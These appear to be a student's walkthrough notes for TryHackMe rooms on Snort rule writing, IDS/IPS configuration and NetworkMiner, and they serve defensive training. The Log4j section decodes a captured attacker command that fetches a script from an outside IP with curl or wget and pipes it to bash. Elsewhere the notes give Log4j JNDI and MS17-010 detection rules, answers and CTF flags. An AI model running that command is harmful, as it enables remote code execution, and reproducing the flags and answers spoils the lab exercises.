Since it is a long, all-in-one configuration file, editing it without causing misconfiguration is troublesome for some users. **That is why Snort has several rule updating modules and integration tools.** To sum up, never replace your configured Snort configuration files; you must edit your configuration files manually or update your rules with additional tools and modules to not face any fail/crash or lack of feature.

- snort.conf: _Main configuration file._
- local.rules: _User-generated rules file._

**Let's start with overviewing the main configuration file (snort.conf)** `sudo gedit /etc/snort/snort.conf`

**Navigate to the "Step #1: Set the network variables." section.**

This section manages the scope of the detection and rule paths.


**Navigate to the "Step #2: Configure the decoder." section.**  

In this section, you manage the IPS mode of snort. The single-node installation model IPS model works best with "afpacket" mode. You can enable this mode and run Snort in IPS.


Data Acquisition Modules (DAQ) are specific libraries used for packet I/O, bringing flexibility to process packets. It is possible to select DAQ type and mode for different purposes.

There are six DAQ modules available in Snort;

- **Pcap:** Default mode, known as Sniffer mode.
- **Afpacket:** Inline mode, known as IPS mode.
- **Ipq:** Inline mode on Linux by using Netfilter. It replaces the snort\_inline patch. 
- **Nfq:** Inline mode on Linux.
- **Ipfw:** Inline on OpenBSD and FreeBSD by using divert sockets, with the pf and ipfw firewalls.  
    
- **Dump:** Testing mode of inline and normalisation.

The most popular modes are the default (pcap) and inline/IPS (Afpacket).

**Navigate to the "Step #6: Configure output plugins" section.**

This section manages the outputs of the IDS/IPS actions, such as logging and alerting format details. The default action prompts everything in the console application, so configuring this part will help you use the Snort more efficiently. 

**Navigate to the "Step #7: Customise your ruleset" section.**


Note that "#" is commenting operator. You should uncomment a line to activate it.

### _**Conclusion**_
Complete the snort challenge room: [Snort Challenge - Live Attacks](https://tryhackme.com/room/snortchallenges1)

## **--Snort Challenge - The Basics--**
### _**Introduction**_

### _**Writing IDS Rules (HTTP)**_
Write rules to detect "all TCP port 80 traffic" packets in the given pcap file. 

`sudo tcpdump -n -r mx-3.pcap 'tcp port 80' | wc -l`
- not used, just a test

`alert tcp any any <> any 80 (msg: "TCP 80 Found"; ; sid:1000001; rev:1;)`
- added this to local.rules

`alert tcp any 80 <> any any (msg: "TCP 80 Found"; ; sid:1000002; rev:1;)`
- added this to local.rules 

`sudo snort -c ./local.rules -dev -l . -r ./mx-3.pcap`
- used this to run sort

What is the number of detected packets?
- 328

**Investigate the log file.**

What is the destination address of packet 63?

`snort -r snort.log.<number> -n 63`
- 145.254.160.237

What is the ACK number of packet 64?

`snort -r snort.log.<number> -n 64`
- 0x38AFFFF3

What is the SEQ number of packet 62?

`snort -r snort.log.<number> -n 62`
- 0x38AFFFF3

What is the TTL of packet 65?

`snort -r snort.log.<number> -n 65`
- 128

What is the source IP of packet 65?
- 145.254.160.237

What is the source port of packet 65?
- 3372

### _**Writing IDS Rules (FTP)**_
Write rules to detect "all TCP port 21"  traffic in the given pcap.

`alert tcp any any <> any 21 (msg: "TCP 21 found"; ; sid:1000001; rev:1;)`

`alert tcp any 21 <> any any (msg: "TCP 21 found"; ; sid:1000002; rev:1;)`

`sudo snort -c ./local.rules -dev -l . -r ./ftp-png-gif.pcap`

What is the number of detected packets?
- 614

Investigate the log file.

`sudo snort -r snort.log<number> -d "tcp and port 21" -n 10`

What is the FTP service name?
- Microsoft FTP service

Clear the previous log and alarm files.

`sudo rm snort.log* alert`

Deactivate/comment on the old rules.

Write a rule to detect failed FTP login attempts in the given pcap.

`alert tcp any any <> any any (msg: "Failed FTP login found"; content: "530 user"; sid:1000003; rev:1;)`

What is the number of detected packets?
- 41

Clear the previous log and alarm files.

Deactivate/comment on the old rule.

Write a rule to detect successful FTP logins in the given pcap.

`alert tcp any any <> any any (msg: "Successful FTP login found"; content: "230 User"; sid:1000004; rev:1;)`

What is the number of detected packets?
- 1

Clear the previous log and alarm files.

Deactivate/comment on the old rule.

Write a rule to detect failed FTP login attempts with a valid username but a bad password or no password.

`alert tcp any any <> any any (msg: "FTP Bad Password found"; content: "331 Password"; sid:1000005; rev:1;)`

What is the number of detected packets?
- 42

Clear the previous log and alarm files.

Deactivate/comment on the old rule.

Write a rule to detect failed FTP login attempts with "Administrator" username but a bad password or no password.

`alert tcp any any <> any any (msg: "FTP Bad Password found"; content: "Administrator"; content: "331 Password"; sid:1000006; rev:1;)`

What is the number of detected packets?
- 7

### _**Writing IDS Rules (PNG)**_

Write a rule to detect the PNG file in the given pcap.
- [https://en.wikipedia.org/wiki/List\_of\_file\_signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)
- `alert tcp any any <> any any (msg: "PNG image found"; content: "|89 50 4E 47 0D 0A 1A 0A|"; sid:1000007; rev:1;)`
- `sudo snort -c ./local.rules -dev -l . -r ftp-png-gif.pcap `

Investigate the logs and identify the software name embedded in the packet.
- Adobe ImageRead

Clear the previous log and alarm files.

Deactivate/comment out the old rule.

Write a rule to detect the GIF file in the given pcap.
- `alert tcp any any <> any any (msg: "GIF87a image found"; content: "|47 49 46 38 37 61|"; sid:1000008; rev:1;)`
- `alert tcp any any <> any any (msg: "GIF89a image found"; content: "|47 49 46 38 39 61|"; sid:1000009; rev:1;)`

Investigate the logs and identify the image format embedded in the packet.
- `sudo snort -d -r snort.log.<number>`
- `less alert`
- GIF89a

### _**Writing IDS Rules (Torrent Metafile)**_

Write a rule to detect the torrent metafile in the given pcap.
- `alert tcp any any <> any any (msg: "Torrent found"; content: "torrent"; sid:1000010; rev:1;)`
- `sudo snort -c ./local.rules -dev -l . -r torrent.pcap`


 What is the number of detected packets?
 - 2

Investigate the log/alarm files.
- `sudo snort -d -r snort.log<number>`

What is the name of the torrent application?
- bittorrent

Investigate the log/alarm files.
- `sudo snort -d -r snort.log<number>`

What is the MIME (Multipurpose Internet Mail Extensions) type of the torrent metafile?
- application/x-bittorrent

Investigate the log/alarm files.
- `sudo snort -d -r snort.log<number>`

What is the hostname of the torrent metafile?
- tracker2.torrentbox.com

### _**Troubleshooting Rule Syntax Errors**_
You can test each ruleset with the following command structure;

`sudo snort -c local-X.rules -r mx-1.pcap -A console`

Fix the syntax error in local-1.rules file and make it work smoothly.  

`alert tcp any 3372 -> any any (msg: "Troubleshooting 1"; sid:1000001; rev:1;)`

What is the number of the detected packets?
- 16

Fix the syntax error in local-2.rules file and make it work smoothly.

`alert icmp any any -> any any (msg: "Troubleshooting 2"; sid:1000001; rev:1;)`

What is the number of the detected packets?
- 68

Fix the syntax error in local-3.rules file and make it work smoothly.

`alert icmp any any -> any any (msg: "ICMP Packet Found"; sid:1000001; rev:1;)`

`alert tcp any any -> any 80,443 (msg: "HTTPX Packet Found"; sid:1000002; rev:1;)`

What is the number of the detected packets?
- 87

Fix the syntax error in local-4.rules file and make it work smoothly.

`alert icmp any any -> any any (msg: "ICMP Packet Found"; sid:1000001; rev:1;)`

`alert tcp any 80,443 -> any any (msg: "HTTPX Packet Found"; sid:1000002; rev:1;)`

What is the number of the detected packets?
- 90

Fix the syntax error in local-5.rules file and make it work smoothly.

`alert icmp any any <> any any (msg: "ICMP Packet Found"; sid:1000001; rev:1;)`

`alert icmp any any <> any any (msg: "Inbound ICMP Packet Found"; sid:1000002; rev:1;)`

`alert tcp any any -> any 80,443 (msg: "HTTPX Packet Found"; sid:1000003; rev:1;)`

What is the number of the detected packets?
- 155

Fix the logical error in local-6.rules file and make it work smoothly to create alerts.

`alert tcp any any <> any any (msg: "get request found"; content:"|67 65 74|";nocase ; sid:10000001; rev:1;)`

What is the number of the detected packets?
- 2

Fix the logical error in local-7.rules file and make it work smoothly to create alerts.

`alert tcp any any <> any 80  (msg: "alert found"; content:"|2E 68 74 6D 6C|"; sid:1000001; rev:1;)`

What is the name of the required option:
- msg

### _**Using External Rules (MS17-010)**_
Use the given pcap file.

Use the given rule file (local.rules) to investigate the ms1710 exploitation.

- 
```
alert tcp any any -> any 445 (msg: "Exploit Detected!"; flow: to_server, established; pcre:"/|57 69 6e 64 6f 77 73 20 37 20 48 6f 6d 65 20 50|/"; pcre: "/|72 65 6d 69 75 6d 20 37 36 30 31 20 53 65 72 76|/"; pcre:"/|69 63 65 20 50 61 63 6b 20 31|/"; sid: 2094284; rev: 2;)
alert tcp any any -> any 445 (msg: "Exploit Detected!"; flow: to_server, established; content: "IPC$"; sid:2094285; rev: 3;)
alert tcp any any -> any 445 (msg: "Exploit Detected!"; flow: to_server, established; content: "NTLMSSP";sid: 2094286; rev: 2;) 
alert tcp any any -> any any (msg: "Exploit Detected!"; flow: to_server, established; content: "WindowsPowerShell";sid: 20244223; rev: 3;)
alert tcp any any -> any any (msg: "Exploit Detected!"; flow: to_server, established; content: "ADMIN$";sid:20244224; rev: 2;)
alert tcp any any -> any 445 (msg: "Exploit Detected!"; flow: to_server, established; content: "IPC$";sid: 20244225; rev:3;)
alert tcp any any -> any any (msg: "Exploit Detected!"; flow: to_server, established; content: "lsarpc";sid: 20244226; rev: 2;)
alert tcp any any -> any any (msg: "Exploit Detected!"; flow: to_server, established; content: "lsarpc";sid: 209462812; rev: 3;)
alert tcp any any -> any any (msg: "Exploit Detected!"; flow: to_server, established; content: "samr"; sid: 209462813; rev: 3;)
alert tcp any any -> any any (msg: "Exploit Detected!"; flow: to_server, established; content: "browser"; sid: 209462814; rev: 2;)
alert tcp any any -> any any (msg: "Exploit Detected!"; flow: to_server, established;content: "epmapper";sid: 209462815; rev: 2;)
alert tcp any any -> any any (msg: "Exploit Detected!"; flow: to_server, established; content: "eventlog"; sid: 209462816; rev: 2;)
alert tcp any any -> any 445 (msg: "Exploit Detected!"; flow:to_server, established; content: "/root/smbshare"; sid: 20242290; rev: 2;)
alert tcp any any -> any 445 (msg: "Exploit Detected!"; flow:to_server, established; content: "\\PIPE"; sid: 20242291; rev: 3;)
alert tcp any any -> any 445 (msg: "Exploit Detected!"; flow:to_server, established; content: "smbshare"; sid: 20242292; rev: 3;)
alert tcp any any -> any 445 (msg: "Exploit Detected!"; flow:to_server, established; content: "srvsvc"; sid: 20242293; rev: 2;)
alert tcp any any -> any 445 (msg:"OS-WINDOWS Microsoft Windows SMB remote code execution attempt"; flow:to_server,established; content:"|FF|SMB3|00 00 00 00|"; depth:9; offset:4; byte_extract:2,26,TotalDataCount,relative,little; byte_test:2,>,TotalDataCount,20,relative,little; metadata:policy balanced-ips drop, policy connectivity-ips drop, policy max-detect-ips drop, policy security-ips drop, ruleset community, service netbios-ssn; reference:cve,2017-0144; reference:cve,2017-0146; reference:url,blog.talosintelligence.com/2017/05/wannacry.html; reference:url,isc.sans.edu/forums/diary/ETERNALBLUE+Possible+Window+SMB+Buffer+Overflow+0Day/22304/; reference:url,technet.microsoft.com/en-us/security/bulletin/MS17-010; sid:41978; rev:5;)
alert tcp any any -> any 445 (msg:"OS-WINDOWS Microsoft Windows SMB remote code execution attempt"; flow:to_server,established; content:"|FF|SMB|A0 00 00 00 00|"; depth:9; offset:4; content:"|01 00 00 00 00|"; within:5; distance:59; byte_test:4,>,0x8150,-33,relative,little; metadata:policy balanced-ips drop, policy connectivity-ips drop, policy max-detect-ips drop, policy security-ips drop, ruleset community, service netbios-ssn; reference:cve,2017-0144; reference:cve,2017-0146; reference:url,isc.sans.edu/forums/diary/ETERNALBLUE+Possible+Window+SMB+Buffer+Overflow+0Day/22304/; reference:url,technet.microsoft.com/en-us/security/bulletin/MS17-010; sid:42944; rev:2;)
alert tcp any any -> any 445 (msg: "Exploit Detected!"; flow: to_server, established; pcre:"/|57 69 6e 64 6f 77 73 20 37 20 48 6f 6d 65 20 50|/"; pcre: "/|72 65 6d 69 75 6d 20 37 36 30 31 20 53 65 72 76|/"; pcre:"/|69 63 65 20 50 61 63 6b 20 31|/"; reference: ExploitDatabase (ID’s - 42030, 42031, 42315); priority: 10; sid: 2094284; rev: 2;)
```
- `sudo snort -c ./local.rules -dev -l . -r ms-17-010.pcap`

What is the number of detected packets?

- 25154

Clear the previous log and alarm files.

Use local-1.rules empty file to write a new rule to detect payloads containing the "\IPC$" keyword.

- `alert tcp any any <> any any (msg:"keyword found"; content:"\\IPC$"; sid:1000001; rev:1;)`
- `sudo snort -c ./local-1.rules -dev -l . -r ms-17-010.pcap`

What is the number of detected packets?

- 12

Investigate the log/alarm files.

- `sudo snort -d -r snort.log.<number>`

What is the requested path?

- \\\192.168.116.138\IPC$

What is the CVSS v2 score of the MS17-010 vulnerability?

- https://nvd.nist.gov/vuln/detail/cve-2017-0144
- 9.3

### _**Using External Rules (Log4j)**_

Use the given rule file (local.rules) to investigate the log4j exploitation.

```
alert tcp any any -> any any (msg:"FOX-SRT – Exploit – Possible Apache Log4J RCE Request Observed (CVE-2021-44228)"; flow:established, to_server; content:"${jndi:ldap://"; fast_pattern:only; flowbits:set, fox.apachelog4j.rce; priority:3; reference:url, http://www.lunasec.io/docs/blog/log4j-zero-day/; metadata:CVE 2021-44228; metadata:created_at 2021-12-10; metadata:ids suricata; sid:21003726; rev:1;) 

alert tcp any any -> any any (msg:"FOX-SRT – Exploit – Possible Apache Log4J RCE Request Observed (CVE-2021-44228)"; flow:established, to_server; content:"${jndi:"; fast_pattern; pcre:"/\$\{jndi\:(rmi|ldaps|dns)\:/"; flowbits:set, fox.apachelog4j.rce; threshold:type limit, track by_dst, count 1, seconds 3600;  priority:3; reference:url, http://www.lunasec.io/docs/blog/log4j-zero-day/; metadata:CVE 2021-44228; metadata:created_at 2021-12-10; metadata:ids suricata; sid:21003728; rev:1;) 

alert tcp any any -> any any (msg:"FOX-SRT – Exploit – Possible Defense-Evasive Apache Log4J RCE Request Observed (CVE-2021-44228)"; flow:established, to_server; content:"${jndi:"; fast_pattern; content:!"ldap://"; flowbits:set, fox.apachelog4j.rce; threshold:type limit, track by_dst, count 1, seconds 3600;  priority:3; reference:url, http://www.lunasec.io/docs/blog/log4j-zero-day/; reference:url, twitter.com/stereotype32/status/1469313856229228544; metadata:CVE 2021-44228; metadata:created_at 2021-12-10; metadata:ids suricata; sid:21003730; rev:1;) 

alert tcp any any -> any any (msg:"FOX-SRT – Exploit – Possible Defense-Evasive Apache Log4J RCE Request Observed (URL encoded bracket) (CVE-2021-44228)"; flow:established, to_server; content:"%7bjndi:"; nocase; fast_pattern; flowbits:set, fox.apachelog4j.rce; threshold:type limit, track by_dst, count 1, seconds 3600;  priority:3; reference:url, http://www.lunasec.io/docs/blog/log4j-zero-day/; reference:url, https://twitter.com/testanull/status/1469549425521348609; metadata:CVE 2021-44228; metadata:created_at 2021-12-11; metadata:ids suricata; sid:21003731; rev:1;) 

alert tcp any any -> any any (msg:"FOX-SRT – Exploit – Possible Apache Log4j Exploit Attempt in HTTP Header"; flow:established, to_server; content:"${"; http_header; fast_pattern; content:"}"; http_header; distance:0; flowbits:set, fox.apachelog4j.rce.loose;  priority:3; threshold:type limit, track by_dst, count 1, seconds 3600; reference:url, http://www.lunasec.io/docs/blog/log4j-zero-day/; reference:url, https://twitter.com/testanull/status/1469549425521348609; metadata:CVE 2021-44228; metadata:created_at 2021-12-11; metadata:ids suricata; sid:21003732; rev:1;) 

alert tcp any any -> any any (msg:"FOX-SRT – Exploit – Possible Apache Log4j Exploit Attempt in URI"; flow:established,to_server; content:"${"; http_uri; fast_pattern; content:"}"; http_uri; distance:0; flowbits:set, fox.apachelog4j.rce.loose;  priority:3; threshold:type limit, track by_dst, count 1, seconds 3600; reference:url, http://www.lunasec.io/docs/blog/log4j-zero-day/; reference:url, https://twitter.com/testanull/status/1469549425521348609; metadata:CVE 2021-44228; metadata:created_at 2021-12-11; metadata:ids suricata; sid:21003733; rev:1;) 

# Better and stricter rules, also detects evasion techniques
alert tcp any any -> any any (msg:"FOX-SRT – Exploit – Possible Apache Log4j Exploit Attempt in HTTP Header (strict)"; flow:established,to_server; content:"${"; http_header; fast_pattern; content:"}"; http_header; distance:0; pcre:"/(\$\{\w+:.*\}|jndi)/Hi"; reference:url,www.lunasec.io/docs/blog/log4j-zero-day/; reference:url,https://twitter.com/testanull/status/1469549425521348609; metadata:CVE 2021-44228; metadata:created_at 2021-12-11; metadata:ids suricata; priority:3; sid:21003734; rev:1;) 

alert tcp any any -> any any (msg:"FOX-SRT – Exploit – Possible Apache Log4j Exploit Attempt in URI (strict)"; flow:established, to_server; content:"${"; http_uri; fast_pattern; content:"}"; http_uri; distance:0; pcre:"/(\$\{\w+:.*\}|jndi)/Ui"; reference:url,https://twitter.com/testanull/status/1469549425521348609; metadata:CVE 2021-44228; metadata:created_at 2021-12-11; metadata:ids suricata; priority:3; sid:21003735; rev:1;) 

alert tcp any any -> any any (msg:"FOX-SRT – Exploit – Possible Apache Log4j Exploit Attempt in Client Body (strict)"; flow:to_server; content:"${"; http_client_body; fast_pattern; content:"}"; http_client_body; distance:0; pcre:"/(\$\{\w+:.*\}|jndi)/Pi"; flowbits:set, fox.apachelog4j.rce.strict; reference:url,www.lunasec.io/docs/blog/log4j-zero-day/; reference:url,https://twitter.com/testanull/status/1469549425521348609; metadata:CVE 2021-44228; metadata:created_at 2021-12-12; metadata:ids suricata; priority:3; sid:21003744; rev:1;)


```
- `sudo snort -c ./local.rules -dev -l . -r log4j.pcap`
What is the number of detected packets?

- 26

Investigate the log/alarm files.

- `less alert`
- `egrep "1:210037*" alert | sort -u`

How many rules were triggered?.

- 4

Investigate the log/alarm files.

What are the first six digits of the triggered rule sids?

- 210037

Clear the previous log and alarm files.

- `sudo rm alert snort.log.<number>`

Use local-1.rules empty file to write a new rule to detect packet payloads between 770 and 855 bytes.

- `alert tcp any any <> any any (msg:"Abnormal packet size detected"; dsize:770<>855; sid:1000001; rev:1)`
- `sudo snort -c local-1.rules -dev -l . -r log4j.pcap`

What is the number of detected packets?

- 41

Investigate the log/alarm files.

- `sudo snort -r snort.log.<number> -d`

What is the name of the used encoding algorithm?

- Base64

Investigate the log/alarm files.
- 

What is the IP ID of the corresponding packet?

- 62808

Investigate the log/alarm files.

- KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC8xNjIuMC4yMjguMjUzOjgwfHx3Z2V0IC1xIC1PLSA0NS4xNTUuMjA1LjIzMzo1ODc0LzE2Mi4wLjIyOC4yNTM6ODApfGJhc2g=}

Decode the encoded command.

- save base64 to decode.txt
- `base64 -d decode.txt`

What is the attacker's command?

- (curl -s 45.155.205.233:5874/162.0.228.253:80||wget -q -O- 45.155.205.233:5874/162.0.228.253:80)|bash

What is the CVSS v2 score of the Log4j vulnerability?

- [https://nvd.nist.gov/vuln/detail/CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
- 9.3

### _**Conclusion**_
Congratulations! Are you brave enough to stop a live attack in the [Snort2 Challenge 2](https://tryhackme.com/room/snortchallenges2) room?

## **--Snort Challenge - Live Attacks--**

### _**Introduction**_
The room invites you to a challenge where you will investigate a series of traffic data and stop malicious activity under two different scenarios. Let's start working with Snort to analyse live and captured traffic.

### _**Scenario 1 | Brute-Force**_

Start Snort in sniffer mode and try to figure out the attack source, service and port.  
  

Then, write an IPS rule and run Snort in IPS mode to stop the brute-force attack. Once you stop the attack properly, you will have the flag on the desktop!

Here are a few points to remember:

- Create the rule and test it with "-A console" mode. 
- Use **"-A full"** mode and the **default log path** to stop the attack.
- Write the correct rule and run the Snort in IPS "-A full" mode.
- Block the traffic at least for a minute and then the flag file will appear on your desktop.  
    

Stop the attack and get the flag (which will appear on your Desktop)

- `sudo snort -dev -l .`
- `ctrl c`
- `sudo snort -r snort.log.<number>`
- `sudo snort -r snort.log.<number> 'port 22' -n 10`
- `sudo snort -r snort.log.<number> 'port 80' -n 10`
- `sudo nano /etc/snort/rules/local.rules`
- `drop tcp any 22 <> any any (msg: "SSH Brute Force Found"; sid: 1000001; rev:1;)`
- `sudo snort -c /etc/snort/snort.conf -q -Q --daq afpacket -i eth0:eth1 -A full`
- `THM{81b7fef657f8aaa6e4e200d616738254}`

What is the name of the service under attack?

- ssh

What is the used protocol/port in the attack?

- tcp/22

### _**Scenario 2 | Reverse-Shell**_

start Snort in sniffer mode and try to figure out the attack source, service and port.  
  

Then, write an IPS rule and run Snort in IPS mode to stop the brute-force attack. Once you stop the attack properly, you will have the flag on the desktop!

Here are a few points to remember:

- Create the rule and test it with "-A console" mode. 
- Use "-A full" mode and the default log path to stop the attack.
- Write the correct rule and run the Snort in IPS "-A full" mode.
- Block the traffic at least for a minute and then the flag file will appear on your desktop.

Stop the attack and get the flag (which will appear on your Desktop)

- `sudo snort -dev -l .`
- `ctrl c`
- `sudo snort -r snort.log.<number>`
- `sudo snort -r snort.log.<number> 'port 4444' -n 10`
- `sudo nano /etc/snort/rules/local.rules`
- `drop tcp any 4444 <> any any (msg: "Reverse Shell Found"; sid: 1000001; rev:1;)`
- `sudo snort -c /etc/snort/snort.conf -q -Q --daq afpacket -i eth0:eth1 -A full`
- `THM{0ead8c494861079b1b74ec2380d2cd24}`

What is the used protocol/port in the attack?

- tcp/4444

Which tool is highly associated with this specific port number?

- Metasploit

## **--NetworkMiner--**

### _**Introduciton**_

NetworkMiner is an open-source traffic sniffer, pcap handler and protocol analyser. Developed and still maintained by Netresec.  

[The official description](https://www.netresec.com/?page=NetworkMiner)

### _**Introduction to Network Forensics**_

Network Forensics is a specific subdomain of the Forensics domain, and it focuses on network traffic investigation. Network Forensics discipline covers the work done to access information transmitted by listening and investigating live and recorded traffic, gathering evidence/artefacts and understanding potential problems.   
  

Briefly, it is the action of recording packets of network traffic and creating investigatable sources and establishing a root–cause analysis of an event. The ultimate goal is to provide sufficient information to detect malicious activities, security breaches, policy/regulation compliance, system health and user behaviour.

  

The investigation process identifies communicated hosts in terms of time, frequency, protocol, application and data.

  

The investigation tries to answer the **5W**;

  

- Who (Source IP and port)
- What (Data/payload)
- Where (Destination IP and port)
- When (Time and data)
- Why (How/What happened)  
    

**Note that** the network evidence capture and investigation process should be systematic. Having enough data and the right timeline capture for a successful network forensics investigation is crucial.  

  

**Network Forensics Use Cases**  

  

The most common network forensics use cases are explained below;

  

- **Network discovery:** Discovering the network to overview connected devices, rogue hosts and network load.   
      
    
- **Packets reassembling:** Reassembling the packets to investigate the traffic flow. This use case is helpful in unencrypted traffic flows.  
      
    
- **Data leakage detection:** Reviewing packet transfer rates for each host and destination address helps detect possible data leakage.   
      
    
- **Anomaly and malicious activity detection:** Reviewing overall network load by focusing on used ports, source and destination addresses, and data helps detect possible malicious activities along with vulnerabilities. This use case covers the correlation of indicators and hypotheses as well.  
      
    
- **Policy/Regulation compliance control:** Reviewing overall network behaviour helps detect policy/regulation compliance.  
      
    

**Advantages of Network Forensics**   

  

General advantages of network forensics are explained below;

  

- **Availability of network-based evidence in the wild:** Capturing network traffic is collecting evidence, so it is easier than other types of evidence collections such as logs and IOCs.

- **Ease of data/evidence collection without creating noise:** Capturing and working with network traffic is easier than investigating unfiltered events by EDRs, EPPs and log systems. Usually, sniffing doesn't create much noise, logs and alerts. The other thing is that network traffic is not destructible like logs and alerts generated by security systems.  

- **It is hard to destroy the network evidence, as it is the transferred data:** Since the evidence is the traffic itself, it is impossible to do anything without creating network noise. Still, it is possible to hide the artefacts by encrypting, tunnelling and manipulating the packets. So, the second fact is the challenge of this advantage. 

- **Availability of log sources:** Logs provide valuable information which helps to correlate the chain of events and support the investigation hypothesis. The majority of the EDRs, EPPs and network devices create logs by default. Having log files is easy if the attacker/threat/malware didn't erase/destroy them.

- **It is possible to gather evidence for memory and non-residential malicious activities:** The malware/threat might reside in the memory to avoid detection. However, the series of commands and connections live in the network. So it is possible to detect non-residential threats with network forensics tools and tactics.

**Challenges of Network Forensics**  

  

General challenges of the network forensics are explained below;

  

- **Deciding what to do:** One of the most difficult challenges of network forensics is "Deciding what to do". There are several purposes of carving networks; SOC, IH/IR and Threat Hunting. Observing, trapping, catching, or stopping an anomalous activity is also possible. 

- **Sufficient data/evidence collection on the network:** One of the advantages of network forensics is "Ease of collecting evidence". However, the breadth of this concept poses a challenge. There are multiple points to consider in data/evidence collection.  
      
    
- **Short data capture:** One of the challenges in data/evidence collection. Capturing all network activity is not applicable and operable. So, it is hard always to have the packet captures that covers pre, during and post-event. 

- **The unavailability of full-packet capture on suspicious events:** Continuously capturing, storing and processing full-packets costs time and resources. The inability to have full-packet captures for a long time creates time gaps between captures, resulting in missing a significant part of an event of interest. Sometimes NetFlow captures are used instead of full-packet captures to reduce the weight of having full-packet captures and increase the capture time. Note that full-packet captures provide full packet details and give the opportunity of event reconstruction, while NetFlow provides high-level summary but not data/payload details.

- **Encrypted traffic:** Encrypted data is another challenge of network forensics. In most cases, discovering the contents of the encrypted data is not possible. However, the encrypted data still can provide valuable information for the hypothesis like source and destination address and used services.

- **GDPR and Privacy concerns in traffic recording:** Capturing the traffic is the same as "recording everything on the wire"; therefore, this act should comply with GDPR and business-specific regulations (e.g. HIPAA, PCI DSS and FISMA ).

- **Nonstandard port usage:** One of the popular approaches in network forensics investigations is grabbing the low-hanging fruits in the first investigation step. Looking for commonly used patterns (like known ports and services used in enumeration and exploitation) is known as grabbing the low-hanging fruits. However, sometimes attackers/threats use nonstandard ports and services to avoid detection and bypass security mechanisms. Therefore sometimes, this ends up as a challenge of network forensics.

- **Time zone issues:** Using a common time zone is important for big-scale event investigation. Especially when working with multiple resources over different time zones, usage of different time zones create difficulties in event correlation.

- **Lack of logs:** Network forensics is not limited to investigating the network traffic data. Network devices and event logs are crucial in event correlation and investigation hypotheses. This fact is known by the attackers/threats as well; therefore these logs are often erased by them, in order to make the investigation more difficult.

  

Sources of Network Forensics Evidence  

  

Capturing proper network traffic requires knowledge and tools. Usually, there is a single chance of gathering the live traffic as evidence. There are multiple evidence resources to gather network forensics data.  

  

- TAPS
- InLine Devices
- SPAN Ports
- Hubs
- Switches
- Routers
- DHCP Servers
- Name Servers
- Authentication Servers
- Firewalls
- Web Proxies
- Central Log Servers
- Logs (IDS/IPS, Application, OS, Device)  
      
    

**Primary Purposes of Network Forensics**   

  

There are two primary purposes in Network Forensics investigations.

- **Security Operations (SOC):** Daily security monitoring activities on system performance and health, user behaviour, and security issues.

- **Incident Handling/Response and Threat Hunting:** During/Post-incident investigation activities on understanding the reason for the incident, detecting malicious and suspicious activity, and investigating the data flow content.

**Investigated Data Types in Network Forensics**

  

There are three main data types investigated in Network Forensics

- **Live Traffic**
- **Traffic Captures (full packet captures and network flows)**
- **Log Files**  
    

NetworkMiner is capable of processing and handling packet pictures and live traffic. Therefore, we will focus on live and captured traffic in this room. Both of these data sources are valuable for forensics investigations. 

  

Traffic investigation actions fall under network forensics's "Traffic Analysis" subdomain. However, the main purpose of the NetworkMiner is to investigate the overall flow/condition of the limited amount of traffic, not for a long in-depth live traffic investigation. Therefore we will focus on how to use NetworkMiner for this purpose. In-depth traffic and packet analysis will be covered in the rooms below;  
  

- [Wireshark](https://tryhackme.com/room/wireshark)
- Tcpdump (available soon!)
- Tshark (available soon!)

### _**What is NetworkMiner?**_

NetworkMiner in a Nutshell

| Capability | Description |
| Traffic sniffing | It can intercept the traffic, sniff it, and collect and log packets that pass through the network. |
| Parsing PCAP files | It can parse pcap files and show the content of the packets in detail. |
| Protocol analysis | It can identify the used protocols from the parsed pcap file. |
| OS fingerprinting | It can identify the used OS by reading the pcap file. This feature strongly relies on [Satori](https://github.com/xnih/satori/) and [p0f](https://lcamtuf.coredump.cx/p0f3/). |
| File Extraction | It can extract images, HTML files and emails from the parsed pcap file. |
| Credential grabbing | It can extract credentials from the parsed pcap file. |
| Clear text keyword parsing | It can extract cleartext keywords and strings from the parsed pcap file. |
|

We are using NetworkMiner free edition in this room, but a Professional edition has much more features. You can see the differences between free and professional versions** [**here**](https://www.netresec.com/?page=NetworkMiner).

**Operating Modes**

There are two main operating modes;

- Sniffer Mode: Although it has a sniffing feature, it is not intended to use as a sniffer. The sniffier feature is available only on Windows. However, the rest of the features are available in Windows and Linux OS. Based on experience, the sniffing feature is not as reliable as other features. Therefore we suggest not using this tool as a primary sniffer. Even the official description of the tool mentions that this tool is a "Network Forensics Analysis Tool", but it can be used as a "sniffer". In other words, it is a Network Forensic Analysis Tool with but has a sniffer feature, but it is not a dedicated sniffer like Wireshark and tcpdump. 

- Packet Parsing/Processing: NetworkMiner can parse traffic captures to have a quick overview and information on the investigated capture. This operation mode is mainly suggested to grab the "low hanging fruit" before diving into a deeper investigation.

**Pros and Cons** 

As mentioned in the previous task, NetworkMiner is mainly used to gain an overview of the network. Before starting to investigate traffic data, let's look at **the pros and cons of the NetworkMiner.**  

**Pros**

- OS fingerprinting
- Easy file extraction
- Credential grabbing
- Clear text keyword parsing
- Overall overview

**Cons**

- Not useful in active sniffing
- Not useful for large pcap investigation
- Limited filtering
- Not built for manual traffic investigation

**Differences Between Wireshark and NetworkMiner**

NetworkMiner and Wireshark have similar base features, but they separate in use purpose. Although main functions are identical, some of the features are much stronger for specific use cases.  

The best practice is to record the traffic for offline analysis, quickly overview the pcap with NetworkMiner and go deep with Wireshark for further investigation.


### _**Tool Overview 1**_

**File Menu**

The file menu helps you load a Pcap file or receive Pcap over IP. You can also drag and drop pcap files as well. 

NetworkMiner also can receive Pcaps over IP. This room suggests using NetworkMiner as an initial investigation tool for low hanging fruit grabbing and traffic overview. Therefore, we will skip receiving Pcaps over IP in this room. You can read on receiving Pcap over IP from [here](https://www.netresec.com/?page=Blog&month=2011-09&post=Pcap-over-IP-in-NetworkMiner) and [here](http://www.gavinhollinger.com/2016/10/pcap-over-ip-to-networkminer.html).

**Tools Menu**

The tools menu helps you clear the dashboard and remove the captured data. 

**Help Menu**

The help menu provides information on updates and the current version.

**Case Panel**

The case panel shows the list of the investigated pcap files. You can reload/refresh, view metadata details and remove loaded files from this panel.

Viewing metadata of loaded files;

**Hosts**

The "hosts" menu shows the identified hosts in the pcap file. This section provides information on;

- IP address
- MAC address
- OS type
- Open ports
- Sent/Received packets
- Incoming/Outgoing sessions
- Host details

OS fingerprinting uses the Satori GitHub repo and p0f, and the MAC address database uses the mac-ages GitHub repo.

